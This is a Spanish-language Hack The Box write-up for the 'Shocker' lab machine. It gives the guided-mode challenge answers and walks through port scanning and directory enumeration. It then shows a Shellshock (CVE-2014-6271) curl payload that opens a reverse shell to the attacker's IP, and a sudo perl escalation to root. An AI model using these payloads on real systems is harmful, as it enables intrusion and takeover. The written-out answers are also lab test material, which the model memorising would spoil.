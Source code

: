 ```yaml
---
title: Writeup shocker - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - shocker
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina shocker en Hack The Box.
keywords:
  - writeup shocker
  - hack the box shocker
  - resolución máquina shocker
  - shocker hack the box
  - htb shocker
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Shocker)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=vaxNMG6xigI)|[Parte2](https://www.youtube.com/watch?v=o5cVkovAiAY)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=gTelKKOMDQw)

--------

#easy #linux #nmap #ping #shellshock #tratamientotty #reverseshell #whatweb #wappalyzer #sudo-l #CVE-2014-6271

-------
# Guided Mode

1)¿Cuántos puertos TCP están a la escucha en Shocker?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor web que es un nombre estándar conocido por ejecutar scripts a través de la interfaz de puerta de enlace común?
	cgi-bin

3)¿Cómo se llama el script del directorio cgi-bin?
	user.sh

4)Pregunta opcional: ¿El resultado de user.sh coincide con el resultado de qué comando estándar de Linux?
	uptime

5)¿Qué CVE ID de 2014 describe una vulnerabilidad de ejecución remota de código en Bash cuando se invoca a través de Apache CGI?
	CVE-2014-6271

6)¿Con qué usuario se ejecuta el servidor web en Shocker?
	shelly

*La pregunta anterior era la flag de user.txt*
8)¿Qué binario puede ejecutar el usuario shelly como root en Shocker?
	perl

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.56 
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.56 -oG allPorts
extractPorts allPorts
nmap -sCV -p80,2222 10.10.10.56 -oN target
```

![[Shocker4.png]]
![[Shocker5.png]]
*TLL:* Maquina linux
*Puertos:*
	`80` HTPP
	`2222` [[ssh]]

------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.56
```
![[Shocker3.png]]
![[Shocker6.png]]
No obtenemos ninguna informacion relevante

-------------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.56 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 64
```

![[Shocker8.png]]

Nos da que existe un directorio http://10.10.10.56/cgi-bin/

Ahora aplicamos enumeracion en este directorio buscando archivos con extension  ``.sh .pl .cgi`` 

```shell
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x sh,pl,cgi -t 64
```

![[Shocker9.png]]

Y da que en el directorio *cgi-bin* hay un archivo *user.sh*   `http://10.10.10.56/cgi-bin/user.sh`

-------
# [[NMAP Scripts]]

Como estamos ante el directorio *cgi-bin*, ejecutamos un comando de enumaracion de shellshock de `nmap` poniendo el archivo de *user.sh* que encontramos antes:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```

![[Shocker2.png]]
Nos indica que es vulnerable a [[CVE-2014-6271]]

---------
# Explotacion [[CVE-2014-6271]] y [[Reverse shell]]

[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
Vamos a usar [[curl]] con el comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`
	se pone el ;echo;echo para separar el payload malioso del comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }/bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`

Ahora nos vamos a poner en escucha con [[nc -nlvp 443]]
![[Shocker1.png]]
Ya ganamos acceso a la maquina

-----
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios con [[Abuso de Sudo]] del [[Binario Perl]]

```shell
sudo -l
```

![[Shocker10.png]]

Se puede ejecutar el binario de */usr/bin/perl*, con privilegio de root sin contraseña. 
Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios

![[Shocker11.png]]

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

Y como se puede apreciar, ya somos root, y podemos catear las flags
![[Shocker12.png]]

# Notas

--------

Me paso que si no ejecutaba el script de nmap, no se me ejecutaba el payload, no me llegaba la revershell


-------
# 📚Creditos

[Writeup de Bast1an1c](https://bast1ant1c.github.io/shocker/#)  
Writeup oficial de HTB
